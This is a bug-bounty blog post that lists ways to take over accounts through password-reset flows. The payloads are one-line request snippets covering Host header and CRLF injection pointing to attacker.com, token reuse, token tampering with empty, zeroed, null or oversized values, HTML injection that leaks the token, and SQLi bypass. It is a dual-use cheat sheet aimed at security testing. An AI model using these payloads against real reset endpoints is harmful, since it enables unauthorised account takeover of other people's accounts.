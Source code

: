 ```yaml
---
title: <img width="50" height="50" alt="front-page port 80-shoopyu" src="https://github.com/thelocalh0st/thelocalh0st.github.io/assets/95465072/77d37890-df5d-43c6-8963-353f8cb4ebbd"> Password Reset Vulnerabilities  
date: 2024-01-04 07:00:02 +730
categories: [Resources, bugbounty]
tags: [bugbounty, password-reset-vuln,cybersecurity] # TAG names should always be lowercase


---
```



<!-- <h1 style="color: cyan; text-align: center">100 Day's Of Cybersecurity - Day 4</h1> -->
<br><br>
![th-364396762 (1)](https://github.com/thelocalh0st/thelocalh0st.github.io/assets/95465072/6609b668-6523-4436-b31b-e1e405cf670b)

<br>
Hey, hacking enthusiasts! Ready to uncover some mind-blowing tricks? Dive into these HubSpot Full Account Takeover methods and master the hacker's playbook!

## 📧 Using Your Token on Victims' Email



```
POST /reset
email=victim@gmail.com&token=$YOUR-TOKEN$
```

Imagine slipping into someone's email fortress with a cleverly placed token. 🕵️‍♂️

## 🌐 Host Header Injection


```
POST /reset
Host: attacker.com
email=victim@gmail.com`
```

Messing with the host header to sow confusion. Crafty, right?

## 🎭 HTML Injection in Host Header


```
POST /reset
Host: attacker">.com
email=victim@gmail.com
```

Why settle for ordinary when you can inject style into your hacks? 😉

## 🕵️ Leakage of Password Reset in Referer Header


`Referrer: https://website.com/reset?token=1234` 

Spotting hidden treasures in the Referer Header - a classic move in the hacker's handbook.

## 🎭 Using Companies Email


```
While inviting users into your account/organization, you can also try inviting company emails and add a 
new field "password": "example123". or "pass": "example123" in the request. you may end up resetting a user password

Company emails can be found on target's GitHub Repos members or you can check on http://hunter.io. some users
have a feature to set a password for invited emails, so here we can try adding a pass parameter.

If successful, we can use those credentials to login into the account, SSO integrations, support panels,
etc
```
Mixing business with pleasure by exploiting the power of company emails. 🏢💻

## 🚪 CRLF in URL


`/resetPassword?0a%0dHost:atracker.tld` 

Breaking into the reset realm with CRLF magic. 🪄

## 📬 HTML Injection in Email



`HTML injection in email via parameters, cookie, etc > inject image > leak the  token` 

Crafting emails that are not just messages but gateways to breach security. 💻🔓

## 🚮 Remove Token



`/reset?eamil=victims@gmail.com&token=` 

Playing hide and seek with tokens - remove, replace, and conquer. 🕵️‍♀️🎭

## 🔄 Change it to 0000



`/reset?eamil=victims@gmail.com&token=0000000000` 

Transforming tokens like a digital alchemist. ✨

## 🚫 Use Null Value



`/reset?eamil=victims@gmail.com&token=Null/nil` 

Because sometimes, nothing is more powerful than Null. 🧙‍♂️

## 🎲 Try an Array of Old Tokens



`/reset?eamil=victims@gmail.com&token=[oldtoken1,oldtoken2]` 

Rolling the dice with a repertoire of old tokens. 🎲

## 🕵️ SQLi Bypass


`try sqli bypass and wildcard or, %, *` 

In the quest for knowledge, SQLi becomes the secret language. 🤫📜

## 🔄 Request Method / Content Type



`change request method (get, put, post etc) and/or content type (xml<>json)` 

Mastering the art of disguise - because not all requests are created equal. 🎭

## 🔄 Response Manipulation

`Replace bad response and replace with good one` 

Turning the tables by manipulating responses. It's like playing chess with code. ♟️

## 🚀 Massive Token



`/reset?eamil=victims@gmail.com&token=1000000 long string` 

Unleashing the power of the colossal token - because size does matter in the hacking world. 🚀

## 🔗 Crossdomain Token Usage



`If a program has multiple domains using the same underlying reset mechanism...` 

Navigating through domains like a digital acrobat - because sometimes, tokens transcend boundaries. 🌐

## Final Notes 📒 

🔍 Leaking Reset Token in Response Body

 🔄 Change 1 Char at the Begin/End to See if the Token is Evaluated

📬 Use Unicode Char Jutsu to Spoof Email Address

⏱️ Look for Race Conditions

 🔄 Try to Register the Same Mail with Different TLD (.eu, .net, etc)


----------

Hope you enjoy this adventure into the world of bug bounty hunting! Happy hacking!

![](https://media.giphy.com/media/DAtJCG1t3im1G/giphy.gif)
